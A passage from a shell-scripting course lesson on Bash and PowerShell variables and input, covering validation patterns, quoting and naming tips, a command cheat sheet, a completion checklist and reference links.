    | IPv4 | `[[ $ip =~ ^([0-9]{1,3}\.){3}[0-9]{1,3}$ ]]` and each octet `<= 255` | `[ipaddress]` cast plus `.AddressFamily -eq 'InterNetwork'` and four dotted parts |
    | Port | `[[ $p =~ ^[0-9]+$ ]] && (( p >= 1 && p <= 65535 ))` | `[ValidateRange(1, 65535)][int]` |
    | Ticket ID | `[[ $t =~ ^INC-[0-9]{4,8}$ ]]` | `[ValidatePattern('^INC-\d{4,8}$')]` |
    | Yes/no | <code>case $a in [yY]&#124;[yY][eE][sS]) ...</code> (Day 22) | `[ValidateSet('Yes','No')]` |

    Note: `-match` and `ValidatePattern` are **case-insensitive** by default, so `inc-1234` passes; use `-cmatch` in code if case matters.

## Professional Tips

- **Quote by default.** Write `"$var"` automatically; leave quotes off only when you can explain why. ShellCheck (warning SC2086) flags unquoted expansions.
- **Lowercase for your variables, uppercase for the environment.** It prevents clobbering `PATH`, `HOME`, `USER` or `HOSTNAME`. In PowerShell, avoid names of automatic variables: `$Host`, `$Input`, `$Args`, `$PID`, `$Error`, `$Matches`, `$_`.
- **Make every value overridable.** `${VAR:-default}` in Bash and parameter defaults in PowerShell let the same script run in test and production without edits.
- **Check `-t 0` before prompting.** `if [[ -t 0 ]]; then read -r -p ...; fi` prompts only when a person is at a terminal; PowerShell can check `[Environment]::UserInteractive` (Windows) or simply rely on `Mandatory` parameters.
- **Print what you are about to do.** Echo the resolved values (`Target: web-01, Window: 22:00–23:00`) before acting — and never echo secrets.
- **Use `declare -p` and `Get-Variable` when debugging.** They show the exact value, type/attributes and quoting, which `echo` hides.
- **Prefer `printf` and `-f` for reports.** Aligned columns make reports readable and diffable.

## Command Cheat Sheet

```bash
# ---- Bash: variables and input ----
name="web-01"; echo "${name}_bak"         # assign (no spaces) ; braces delimit
: "${TARGET:?TARGET is required}"          # fail if unset/empty
port="${2:-443}"                           # default from 2nd argument
file="${path##*/}"; dir="${path%/*}"       # basename ; dirname
echo "${v^^} ${v,,} ${#v}"                 # upper ; lower ; length
today=$(date -u +%F); pct=$(( used * 100 / total ))
export LOG_LEVEL=info; TZ=UTC date         # environment ; one-command env
declare -r MAX=3; declare -A m=([k]=v)     # constant ; associative array
arr=(a "b c"); for x in "${arr[@]}"; do :; done
read -r -p "Host: " host                   # prompt (terminal only)
read -r -s -p "PIN: " pin; echo            # silent input
IFS=: read -r user _ uid _ <<< "$line"     # split a record
printf '%-10s %5.1f\n' "$name" 85.12       # formatted output
set -o nounset -o pipefail                 # script safety header
```

```powershell
# ---- PowerShell: variables and input ----
$name = 'web-01'; "$($name.ToUpper())"     # assign ; subexpression
[int]$port = 443                           # type constraint = validation
$v ?? 'default'; $v ??= 'default'          # null-coalescing (7.0+)
Split-Path $path -Leaf; Split-Path $path -Parent
$env:LOG_LEVEL = 'info'; $env:PATH         # environment variables
[Environment]::SetEnvironmentVariable('X', '1', 'User')   # persistent (Windows)
New-Variable MaxRetries 3 -Option ReadOnly # constant-ish
$script:count = 0                          # script scope
$h = Read-Host 'Host'                      # prompt (string)
$s = Read-Host 'Token' -AsSecureString     # secret
$cred = Get-Credential                     # PSCredential
[int]::TryParse($text, [ref]$n)            # safe conversion
'{0,-10} {1,5:N1}' -f $name, 85.12         # formatted output
Set-StrictMode -Version Latest             # error on undefined variables
```

## Completion Checklist

- [ ] I can assign and read variables in both shells and know why Bash forbids spaces around `=`.
- [ ] I can explain word splitting and always quote Bash variables.
- [ ] I used `${var:-}`, `${var:?}`, `${var##*/}`, `${var%.*}` and case conversion.
- [ ] I used `$(...)` and `$(( ))`, and I know about integer division and the octal trap.
- [ ] I can explain shell vs environment variables, `export`, subshells and `source`.
- [ ] I can explain PowerShell scopes, `$env:` and persistent environment variables.
- [ ] I used type constraints, `-as`, `TryParse` and `Set-StrictMode` in PowerShell.
- [ ] I accepted input from arguments, prompts and the environment, and validated it.
- [ ] I read a secret without echoing it and kept it out of files and history.
- [ ] I completed Lab 21, the practice questions, the quiz and the homework.

## Further Reading

- GNU Bash Reference Manual — [Shell Parameters](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameters.html), [Shell Parameter Expansion](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html), [Quoting](https://www.gnu.org/software/bash/manual/html_node/Quoting.html), [Word Splitting](https://www.gnu.org/software/bash/manual/html_node/Word-Splitting.html), [Bash Builtins (`read`, `declare`, `printf`)](https://www.gnu.org/software/bash/manual/html_node/Bash-Builtins.html)
- Linux man pages: [bash(1)](https://man7.org/linux/man-pages/man1/bash.1.html), [environ(7)](https://man7.org/linux/man-pages/man7/environ.7.html), [env(1)](https://man7.org/linux/man-pages/man1/env.1.html), [printenv(1)](https://man7.org/linux/man-pages/man1/printenv.1.html), [printf(1)](https://man7.org/linux/man-pages/man1/printf.1.html), [pam_env.conf(5)](https://man7.org/linux/man-pages/man5/pam_env.conf.5.html)
- Ubuntu: [Environment variables](https://help.ubuntu.com/community/EnvironmentVariables) and the [Ubuntu documentation hub](https://documentation.ubuntu.com/)
- PowerShell: [about_Variables](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_variables), [about_Scopes](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_scopes), [about_Environment_Variables](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_environment_variables), [about_Quoting_Rules](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_quoting_rules), [about_Automatic_Variables](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_automatic_variables), [about_Functions_Advanced_Parameters](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_functions_advanced_parameters)
- Cmdlets: [Read-Host](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/read-host), [Get-Credential](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-credential), [Set-Variable](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/set-variable), [Write-Host](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/write-host), [Write-Information](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/write-information), [Set-StrictMode](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/set-strictmode)
- .NET: [Environment.SetEnvironmentVariable](https://learn.microsoft.com/en-us/dotnet/api/system.environment.setenvironmentvariable), [SecureString — do not use for new development](https://learn.microsoft.com/en-us/dotnet/fundamentals/runtime-libraries/system-security-securestring)

---

**Previous:** [Day 20: Network Security Investigation](../module-4/day-20.md) · **Next:** [Day 22: Conditions and Loops](day-22.md)
